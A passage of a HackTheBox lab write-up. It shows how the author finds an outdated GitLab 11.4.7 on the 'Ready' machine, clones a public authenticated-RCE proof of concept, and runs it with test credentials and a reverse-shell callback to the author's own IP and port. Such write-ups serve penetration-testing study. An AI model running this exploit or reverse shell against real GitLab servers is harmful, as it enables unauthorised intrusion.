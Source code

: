 I like the update asap message. That means that this version is outdated. Let's search for an authenticated (or unauthenticated) RCE:

[GitHub - ctrlsam/GitLab-11.4.7-RCE: POC for GitLabs Authenticated RCE in version 11.4.7 community edition](https://github.com/ctrlsam/GitLab-11.4.7-RCE)

The good thing is that this exploit works with python3, so I should not have any problems regarding packets and incompatible versions.

# Exploitation

---

Let's download the exploit and switch to it’s directory:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ git clone https://github.com/ctrlsam/GitLab-11.4.7-RCE.git
Cloning into 'GitLab-11.4.7-RCE'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 13 (delta 2), reused 11 (delta 2), pack-reused 0
Receiving objects: 100% (13/13), done.
Resolving deltas: 100% (2/2), done.
                                                                                                                                                                                
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready]
└─$ cd GitLab-11.4.7-RCE 
                                                                                                          
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready/GitLab-11.4.7-RCE]
└─$ ls
exploit.py  README.md
```

Here are the parameters that we need to set:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready/GitLab-11.4.7-RCE]
└─$ python3 exploit.py
usage: exploit.py [-h] -u U -p P -g G -l L -P P
exploit.py: error: the following arguments are required: -u, -p, -g, -l, -P
```

I can also view the parameters in the source code:

```python
parser.add_argument('-u', help='GitLab Username/Email', required=True)
parser.add_argument('-p', help='Gitlab Password', required=True)
parser.add_argument('-g', help='Gitlab URL (without port)', required=True)
parser.add_argument('-l', help='reverse shell ip', required=True)
parser.add_argument('-P', help='reverse shell port', required=True)
```

I can run the exploit with the credentials of my test account:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/ready/GitLab-11.4.7-RCE]
└─$ python3 exploit.py -u test -p password -g http://ready.htb -l 10.10.16.6 -P 443
[+] authenticity_token: 72T53eiUQIfjzCLNIxbDdzCbxqyfakwFCVD6wEY8w//C/CncRlgJkzaeg5rbxf+YZs4V7zv1/nMGBdk2Q+0SBw==
[+] Creating project with random name: project7246
[+] Running Exploit
[+] Exploit completed successfully!
```
